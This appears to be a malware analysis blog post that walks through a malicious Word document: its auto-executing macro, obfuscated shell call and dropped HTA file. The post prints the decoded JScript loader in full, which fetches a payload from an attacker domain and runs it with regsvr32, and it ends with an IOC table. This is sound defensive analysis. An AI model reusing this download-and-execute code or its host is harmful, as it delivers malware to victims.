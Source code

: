 Browsing through [AnyRun](https://app.any.run/tasks/3f121e8d-95d6-4c9f-90e2-bb57a4ddf697/), I found an interesting sample. 


Let's take a look at it.

If you don't have a copy of Office available, it's still easy to analyze with [OleTools](https://github.com/decalage2/oletools) and [CyberChef](https://gchq.github.io/CyberChef/). 

I always like to look inside the doc for any images. This helps me understand the lures used. CyberChef has a recipe to "Extract Files". You can use this to easily preview images. In this case, the image alone makes this *highly suspicious*. This is the traditional "This document was created in an earlier version of Word" lure.  


![18cad07a4fe5e160b924fb4818e3380e.png](../_posts/_resources/d9526c32abc848b597e66e2615191886.png)


Malicious Word documents typically do one of three techniques to do evil:

1. Macros
2. Link to a URL containing the malicious payload
3. Exploit Word itself, usually [CVE–2017–11882](https://blog.morphisec.com/microsoft-equation-editor-backdoor) 

Running `olevba -a ingresso.03.26.21.doc` performs triage analysis on the macro and highlights suspicious items. 

![648a2336d5d74ff831b7b742e17dd3b8.png](../_posts/_resources/5f24a20247d84cf7948244b0d9b71c69.png)

There are several things that stand out here that will guide our analysis. The macro:

1. Auto-executes on open
2. Creates a file
3. Executes a shell command
4. Contains encoded/obfuscated strings

To make understanding the macro code easier, I prefer to dump it out to a text file (`olevba ingresso.03.26.21.doc > macro.txt`) and open it up in Notepad++. I love Notepad++ for the language specific syntax coloring, and that selecting text will highlight it elsewhere in the document. These two things help a lot when deobfuscating scripts. 

I take a once over for the full macro, then focus in on one component I find most interesting. If you don't know where to start, the shell command is always a solid choice. 



![6f9193d37b7041b3fb47c3b8ab145ed1.png](../_posts/_resources/c5cb9f692a3040908c3e1e3840d87c3d.png)



What we can see here is that a `wscript.shell` object is stored in a variable called `documentViewTitle`. The `exec` [function](https://www.vbsedit.com/html/5593b353-ef4b-4c99-8ae1-f963bac48929.asp) of this object is then called with the arguments pulled from `ptrMem` and `WExceptionLink`, after using the `Replace()` function to remove the 1s used to obfuscate the code. Looking at these variables, they seem to source from some form object contained in the document. If we use the `oledump` tool, we can see this object.


![9bd3219588cd7345cb28fb79958f8631.png](../_posts/_resources/249176739ae042389500f2e49ed828bf.png)

If we select the appropriate streams, we see the command `c:\windows\explorer.exe c:\users\public\main.hta` come to light.


![a6898a7ea7b51b7543256fd913b14ecb.png](../_posts/_resources/7a0d96156ed2434ab552b1bde522c5a9.png)

Thinking back to our triage of the sample, this HTA file is likely the file that's created by the macro. Zeroing in on that code...



![3ee7508bf8e27fbdf56648d082c01463.png](../_posts/_resources/9380db033d3f4293a99640d326b16b92.png)


We can look up the documentation for the `CreateTextFile` [method](https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/createtextfile-method) and it tells us that the argument will be the filename, so `borderBorderEx` eventually deobfuscates to `main.hta`, but `queryProc` will be the contents of the file, and much more interesting. 

If we use Notepad++ to select the function `textboxTable` we can find the places it is called in the code, and analyze the contents of the second argument. The second argument to `textboxTable` is the contents of the HTA file. 


![9d44f30bd645a83a3e00fe2c93ae6954.png](../_posts/_resources/df31519e7eb34efd912ef21db61b3f17.png)

Let's follow `argumentExceptionButton` and see what its contents are.


![2c6b410657946e6282c9d47e5720bf9d.png](../_posts/_resources/c6656556ce9a4d74a4be68d974711a42.png)

Essentially, it's this huge word wrap of other variables concatenated. The variables are defined above, so we can do a find and replace - replacing the variable names with their content. Once you've finished with the tedious work, you'll see the HTA file contents. 


![fd36f4d06a247a2ffb08803d348ce962.png](../_posts/_resources/3f87bc7ed60845919527a7df8469cbd2.png)

Once you clean up this code a little, getting rid of the extraneous `+` and `"` symbols, you'll see a long string in the `<div>` tag. One of the things that immediately stands out is the character set and that it ends with an equals sign. Without taking the time to understand any of the decoding algorithm underneath, I have a strong suspicion that it's base64 encoded. Let's test in CyberChef. 


![8a013579e2ded609a263c08262e9c7ae.png](../_posts/_resources/5720f3a32c1c478895a2b0398523255e.png)

It definitely decodes properly, but it looks weird. Applying the "Reverse" recipe will put the characters in the correct order, resulting in the following code that will be executed by the HTA file.

```
new ActiveXObject("wscript.shell").run("regsvr32 c:\\users\\public\\collectionMemory.jpg");
var buttonPasteLeft = new ActiveXObject("scripting.filesystemobject");
try {
    buttonPasteLeft.deletefile("c:\\users\\public\\main.hta");
} catch(nextTrust) {}

var listboxTableRequest = new ActiveXObject("msxml2.xmlhttp");
listboxTableRequest.open("GET", "http://brown-craft-2018.com/fdvdd/sAyRdZ1iUxUFSEiaXlMxv4sYlMVcPX/Oz6qD6um7u2XDeRs0hvyB6/fFfWhs1ayr1Sp4kiHky8LFM/4Cr408QvrXy5Q9LFbjdzVx/naw15?id=bgZ5DeL6cVNx69&id=h6", false);
listboxTableRequest.send();
if (listboxTableRequest.status == 200)  {
    var documentRight = new ActiveXObject("adodb.stream");
    documentRight.open;
    documentRight.type = 1;
    documentRight.write(listboxTableRequest.responsebody);
    documentRight.savetofile("c:\\users\\public\\collectionMemory.jpg", 2);
    documentRight.close;
}
```

This HTA file will retrieve the remote file named `collectionMemory.jpg` and attempt to execute it with `regsvr32`. Unfortunately, by the time Any.Run or myself were able to get to it, it seems like this file no longer exists.


![9ea24f09d0b510a34031a3a537fba29d.png](../_posts/_resources/c324949225cb49aaa82ebafcd05456fb.png)


However, @reecDeep on [Twitter](https://twitter.com/reecdeep/status/1375385369462575106) reported a ***similar*** sample from a few days prior and the follow on payload was uploaded to [tria.ge](https://tria.ge/210326-g3jcevvnd6).


IOCs

Type|Value
---|------
filename|ingresso.03.26.21.doc
filename|c:\users\public\collectionMemory.jpg
filename|c:\users\public\main.hta
md5|ff39fc0c398db11d51982220d6b7b45c
sha256|d44d2da0f8cd163c6d36e4f71b35dcd21c76e639caff11cd94b005c6fad78ba5
domain|brown-craft-2018[.]com 
ip|45.150.67[.]40 






